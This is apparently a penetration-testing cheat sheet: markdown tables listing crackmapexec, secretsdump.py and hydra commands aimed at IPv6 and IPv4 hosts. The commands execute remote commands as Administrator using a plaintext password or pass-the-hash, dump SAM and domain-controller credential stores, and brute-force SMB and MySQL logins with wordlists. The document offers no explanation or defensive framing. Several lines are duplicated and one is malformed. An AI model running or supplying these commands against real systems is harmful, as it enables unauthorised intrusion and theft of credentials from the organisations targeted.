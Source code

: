 ### IPv6 Assessment
| for Example  |
| ------------- |
|crackmapexec 2001:DB8:7654:3210:FEDC:BA98:7654:3210 -u Administrator -p 'Passw0rd' -x "ipconfig" |
|crackmapexec 2001:DB8:7654:3210:FEDC:BA98:7654:3210-u Administrator -H "Hash" --sam |
|crackmapexec cme-hosts.txt -u Administrator -H "Hash" --sam |
|crackmapexec 2001:DB8:7654:3210:FEDC:BA98:7654:3210 -u Administrator -H "Hash" -x "hostname"|
|python secretsdump.py -hashes "Hash" -just-dc acmebank.loca/Administrator@2001:DB8:7654:3210:FEDC:BA98:7654:3210 |
|crackmapexec 2001:DB8:7654:3210:FEDC:BA98:7654:3210 -u Administrator -p 'Passw0rd' -x "ipconfig" |
|crackmapexec cme-hosts.txt -u Administrator -H "Hash" --sam |
|crackmapexec cme-hosts.txt -u Administrator -H "Hash" --sam |
|crackmapexec cme-hosts.txt -u Administrator -H "Hash" --sam |

### IPv6 hydra Password Brute Force
| for Example  |
| ------------- |
|hydra -l Administrator -P /usr/share/wordlists/metasploit/unix_passwords.txt -t 6 smb://[2001:db7::1234:1] |
|hydra –L /root/Desktop/user.txt –P /root/Desktop/pass.txt 192.168.1.106 mysql |
|hydra -L usernames.txt -P passwords.txt 192.168.2.66 mysql -V -f |
